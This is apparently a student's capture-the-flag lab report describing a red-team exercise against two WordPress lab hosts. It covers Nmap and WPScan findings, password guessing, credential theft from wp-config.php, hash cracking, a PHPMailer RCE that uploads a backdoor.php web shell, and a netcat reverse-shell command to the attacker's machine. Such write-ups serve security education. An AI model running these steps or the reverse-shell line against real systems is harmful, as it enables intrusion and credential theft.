





# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

 

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - Port 22: SSH (OPENSSH 6.7p1 Debian
  - Port 80: HTTP (Apache httpd 2.4.10)
  - Port 111: rpcbind (2-4 RPC #100000)
  - Port 139: netbios-ssn (Samba smbd 3.x - 4.x)
  - Port 445: microsoft-ds (Samba smbd 3.x -4.x)

 

- Target 2 (192.168.1.115)
  - Port 22: SSH (OPENSSH 6.7p1 Debian
  - Port 80: HTTP (Apache httpd 2.4.10)
  - Port 111: rpcbind (2-4 RPC #100000)
  - Port 139: netbios-ssn (Samba smbd 3.x - 4.x)
  - Port 445: microsoft-ds (Samba smbd 3.x -4.x)

   

Also since we know that Target 1 server runs WordPress server,  
WPScan was run for Target 1 to reveal the below vulnerabilities:

The following vulnerabilities were identified on each target:
- Target 1
  - WordPress XMLRPC GHOST Vulnerability Scanner 
    - (CVE-2015-0235)
    - Used to determine if it is vulnerable to the GHOST using WordPress XMLRPC interface.
    - If vulnerable, system will segfault (segmentation fault - where unauthorized is trying to get into memory system) and return a server error.
  - WordPress XMLRPC DoS 
    - (CVE-2014-5266)
    - Vulnerable to XML based denial of service.
    - Web Server can have an effect in availability (CIA Triad).
  - WordPress XML-RPC Username/Password Login Scanner 
    - (CVE-1999-0502)
    - Attempts to authenticate against Wordpress-site (via XMLRPC) using different combinations.
    - Brute Force attack can be done to get the username & password of the web server for authentication.
  - WordPress XML RPC Pingback API or Pingback Locator 
    - (CVE-2013-0235)
    - Allows attackers to send HTTP request to intranet servers for port-scanning attack.
    - One server can expose all the internal server composition.
  - WordPress Cron.php
    - Allows possible DDos Attack against wp-cron.php since it will return a 200 code when executed.
  - WordPress version 4.8.17 vulnerability
    - Insecure version / Outdated. Most recent one is 5.8.1 released Sept 9, 2021.
    - Unpatched version can be exploited through numerous vulnerabilities.

 

While going through this activity, other vulnerabilities were also found:
- Target 1
  - Wordpress User Enumeration
    - WPS Scan Detect the list of users with the specific options used (-u).
    - Unauthorized can get the username to target the specific account.
  - Open Port 22 SSH & Weak Password
    - Having Port 22 SSH open, anyone with the username and password can get into the system.
    - Anyone can brute force attack the authentication for the system.
  - Sensitive Data Exposure
    - wp-config.php: SQL Database Configuration in Plaintext.
    - Once the config file is seen, anyone can grab the Id & pw. Better protect it with encryption.
  - Python sudo privileges
    - User is given access to sudo privileges via Python.
    - Attacker can escalate to root privileges easily gaining access to the system.

- Target 2
  - Brute-forceable URL directories and files
    - Allows brute force to guess the directories that this webserver has.
    - Allowing directories to be discovered, structure of the system is known.
  - Unrestricted access to server directories
    - Once on the system, there were no restricted access to the files or directories.
    - This completely exposes the system to unauthorized personnel.
  - PHPMailer 5.2.16 Remote Code Execution
    - (CVE-2016-10033)
    - Allow attackers to execute arbitrary code in a crafted sender property.
    - backdoor.php can be installed for unauthorized personnel to gain access.

 

## Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - With the WPScan above, username of the Target 1 WordPress Server found are: steven and michael.
      - We were told to guess the michael's password, with the hint 'most obvious possible guess'. 
      - Guessed the same pw as the Id, which worked (Bad Practice). (pw: michael)
      
      

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - flag 2 was in the system, directory `/var/www/`
      

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - MySQL is being run as a database for WordPress.
      - to find the authentication for the MySQL database, configuration file was needed.
      - wp-config.php was spotted.
      
      
      - using the credentials to log into MySQL, searched through database.
      
      `
       - Command used to get the Flag 3: `select * from wp_posts;`
      
      - Flag 3 was exploised while getting to that step.

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - While going through the MySQL database, WordPress user password hashes were dumped out of database to get Steven's pw.
      
      - With these hashes, created a file called `wp_hashes.txt` with Steven & Michael's hashes:
      
      - Then, cracked password hashes with `John the Rippe`r.
      
      - with the cracked password for Steven, SSH into Steven's user shell
      
      - Checked the status of the user account to see if escalation to root can be obtained.
      
      
      

 
 

- Target 2
  -  `flag1.txt`: a2c1f66d2b8051bd3a5874b5b6e43e21
      - **Exploit Used**
        - Target 2 was more challenging, where michael and steven's passwords were unable to uncover.
        - Enumerate the webserver with nikto command
        
        - This created a list of URLs the Target HTTP server exposes.
        - Then, more in-depth enumeration was ran with gobuster command
        
        - Visited all the subdirectories that was listed on the output.
        - found out that `/vendor` subdirectory contained several files that I believe it should not be publicly facing.
        
        - while going through all the files, found flag 1
        

  - `flag2.txt`: 6a8ed560f0b5358ecf844108048eb337
    - **Exploit Used**
      - With the Vendor directory exposed, you could see from this subdirectory that this WordPress website uses `PHPMailerAutoload.php`
      
      - Also found version of the PHPMailer this Server uses
      
      - So with this version, you can search within searchsploit to see if there is exploit that can be used
      
      - You can use any of the exploit, but for the purpose of this project, given `exploit.sh` file is used to exploit this vulnerability.
      (Also made sure that the top of the `exploit.sh` script was set TARGET variable with the IP address of Target 2)
        - [exploit.sh](Resources/exploit.sh)
      - Then, this script was ran to upload backdoor.php file to the target server, which can be used to execute command injection attacks
      
      - Nagivated to `http://<Target 2 URL>/backdoor.php?cmd=<CMD>` which allowed to run bash commands on Target 2.
        - For example, /etc/passwd
        
      - Next, used this exploit to open backdoor reverse shell on the target. So on Kali VM, netcat listner was started:
      
        
      - In the browser, command `nc<Kali IP> 4444 -e /bin/bash` was used to connect the reverse shell
      
      
      - using the shell opened, flag 2 was located.
      

  - `flag3.txt`: a0f568aa9de277887f37730d71520d9b
    - **Exploit Used**
      - flag 3 was found within the WordPress uploads directory, by using find command
      
      
      

  - `flag4.txt`: UNABLE TO LOCATE - PROCESSING- September 11, 2021
    - **Exploit Used**
      - Trying my best to see if I can complete the privilege escalation exploit successfully before the lab time is up...

 
 
 

## Reference
- Rapid7 (May, 2018) WordPress XMLRPC GHOST Vulnerability Scanner Retreived from https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
- Rapid7 (May, 2018) WordPress XMLRPC DoS Retreived from https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
- Rapid7 (May, 2018) WordPress XML-RPC Username/Password Login Scanner Retreived from https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
- National Vulnerability Database (Aug, 2013) CVE-2013-0235 Detail Retrieved from https://nvd.nist.gov/vuln/detail/CVE-2013-0235
- cve.mitre.org (Sept, 2021) CVE-2016-10033 Retrieved from https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10033
- javiercasares (Feb, 2019) WP-Cron detection? Retrieved from https://github.com/wpscanteam/wpscan/issues/1299

 
 
 

### <u> Author </u>
My name is [Sooji Lee](https://www.linkedin.com/in/soojilee88/) :)